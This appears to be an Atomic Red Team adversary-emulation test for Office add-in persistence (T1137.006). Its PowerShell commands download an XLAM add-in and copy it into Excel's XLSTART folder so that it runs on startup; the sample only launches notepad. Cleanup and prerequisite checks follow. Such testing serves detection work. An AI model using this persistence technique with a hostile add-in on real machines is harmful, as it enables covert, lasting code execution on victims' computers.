 Creates an Excel VBA Add-in file (XLAM) which runs automatically when Excel is started
The sample XLAM provided launches the notepad as a proof-of-concept for persistent execution from Office.

**Supported Platforms:** Windows

**auto_generated_guid:** 082141ed-b048-4c86-99c7-2b8da5b5bf48

#### Attack Commands: Run with `powershell`!

```powershell
Copy "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam" "$env:APPDATA\Microsoft\Excel\XLSTART\notepad.xlam"
Start-Process "Excel"
```

#### Cleanup Commands:

```powershell
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\Excel\XLSTART\notepad.xlam" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Excel must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```

##### Description: XLAM file must exist on disk at specified location

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/ExcelVBAaddin.xlam" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam"
```
